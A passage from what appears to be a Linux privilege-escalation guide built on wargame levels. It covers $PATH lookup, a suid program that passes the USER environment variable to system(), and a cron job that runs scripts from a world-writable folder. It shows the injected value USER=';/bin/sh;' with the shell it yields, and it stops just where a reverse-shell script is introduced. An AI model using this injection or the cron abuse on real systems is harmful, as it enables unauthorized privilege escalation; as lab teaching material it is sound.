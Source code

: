If we execute a binary without specifying an absolute paths, it goes in order of your $PATH variable. By default, it's something like:

```none
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

It is important to see .bash_profile file which contains the $PATH

### Environment Variable Abuse

If the suid binary contains a code like

```none
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer);
system(buffer);
```

We can see that it is accepting environment variable USER which can be user-controlled. In that case just define USER variable to

```none
USER=";/bin/sh;"
```

When the program is executed, USER variable will contain /bin/sh and will be executed on system call.

```none
echo $USER
;/bin/sh;

levelXX@:/home/flagXX$ ./flagXX
about to call system("/bin/echo ;/bin/sh; is cool")

sh-4.2$ id
uid=997(flagXX) gid=1003(levelXX) groups=997(flagXX),1003(levelXX)
```

### World-Writable Folder with a Script executing any file in that folder using crontab

If there exists any world-writeable folder plus if there exists a cronjob which executes any script in that world-writeable folder such as

```none
#!/bin/sh

for i in /home/flagXX/writable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

then either we can create a script in that folder /home/flagXX/writeable.d which gives us a reverse shell like
